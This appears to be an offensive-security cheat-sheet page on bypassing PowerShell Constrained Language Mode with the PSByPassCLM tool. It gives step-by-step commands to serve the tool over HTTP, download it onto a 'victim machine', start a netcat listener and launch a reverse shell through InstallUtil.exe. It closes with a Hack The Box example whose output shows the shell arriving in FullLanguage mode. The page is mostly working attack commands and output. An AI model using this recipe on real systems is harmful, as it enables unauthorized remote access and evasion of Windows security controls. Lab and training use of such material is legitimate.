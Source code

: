 # Bypass Constraint Language in PowerShell

## PSByPassCLM

It’s possible that sometimes when you gain access to a Windows machine and you have a PowerShell, that this is in a constraint language context. In the victim machine, you can check that with the `$ExecutionContext.SessionState.LanguageMode` command. PSByPassCLM can bypass this by creating a new reverse shell, you can bypass this context.

Clone the PSByPassCLM repository

```text
git clone https://github.com/padovah4ck/PSByPassCLM
```

Transfer PSByPassCLM.exe to the victim machine, to do this we need a listener:

```text
cd PSByPassCLM/PSByPassCLM/PSBypassCLM/bin/x64/Debug
python -m http.server 80
```

Then we may be able to download the file to our target machine with:

```text
iwr -uri http://10.10.10.11/PsByPassCLM.exe -OutFile c:\temp\psby.exe
```

Set up a listening port to catch a reverse shell connection:

```text
rlwrap nc -nlvp 443
```

Run the reverse shell with the following command:

```text
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.10.11 /rport=443 /U c:\temp\psby.exe
```

In the new shell session, if you type `$ExecutionContext.SessionState.LanguageMode`, you will be able to check if you're in a `FullLanguage` context.

## Example Scenario

```text
PS htb\amanda@SIZZLE Documents> C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U /revshell=true /rhost=10.10.10.15 /rport=443 \users\amanda\appdata\local\temp\a.exe
Microsoft (R) .NET Framework Installation utility Version 4.6.1586.0
Copyright (C) Microsoft Corporation.  All rights reserved.


The uninstall is beginning.
See the contents of the log file for the C:\users\amanda\appdata\local\temp\a.exe assembly's progress.
The file is located at .
Uninstalling assembly 'C:\users\amanda\appdata\local\temp\a.exe'.
Affected parameters are:
   assemblypath = C:\users\amanda\appdata\local\temp\a.exe
   rport = 443
   revshell = true
   rhost = 10.10.10.15
   logtoconsole = true
   logfile = 
Trying to connect back...
```

In another shell listen on the port 443:

```text
root@kali# rlwrap nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.103.
Ncat: Connection from 10.10.10.103:62228.
whoami
htb\amanda
PS C:\Users\amanda\Documents> $executioncontext.sessionstate.languagemode
FullLanguage
```


